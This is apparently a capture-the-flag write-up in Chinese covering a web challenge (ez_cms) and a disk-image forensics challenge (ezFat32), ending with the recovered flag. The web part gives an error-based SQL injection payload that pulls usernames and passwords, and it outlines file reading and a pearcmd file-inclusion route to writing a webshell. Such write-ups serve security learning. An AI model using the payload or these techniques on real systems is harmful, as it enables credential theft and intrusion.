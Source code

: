 ## Web
### ez_cms
`?r=content&cid=1%20or%20updatexml(1,concat(0x7e,(select%20concat(user,0x3a,password)%20from%20manage)),1)`

![](attachments/Pasted%20image%2020230722105003.png)

![](attachments/Pasted%20image%2020230722104909.png)

通过发布下载实现任意文件读取
![](attachments/Pasted%20image%2020230722105721.png)

![](attachments/Pasted%20image%2020230722105710.png)


后面真的没有思路了用cms的下载管理来读文件不知道flag名字，用上传的方式想上传一个图片马然后用文件包含那个洞来做RCE但是上传会报错猜测是系统里面没有那个文件夹，最后是直接pearcmd文件包含来写马。

![](attachments/Pasted%20image%2020230725144904.png)


## Misc
### ezFat32
给了个镜像用autopsy直接提了一个bmp出来

![](attachments/f0000001.bmp)

真的想不明白，不说的话谁会用sha256值去解压缩包的密码解开后就是flag

![](attachments/Pasted%20image%2020230724153536.png)

1bec3826d44f706d33e8cc4bc230d3113d0198261ff1cd251294dbdebabb0af5

dasctf{Yep_Y0u_F1nd_The_F1ag!Suff3r_t0_rec0ver}
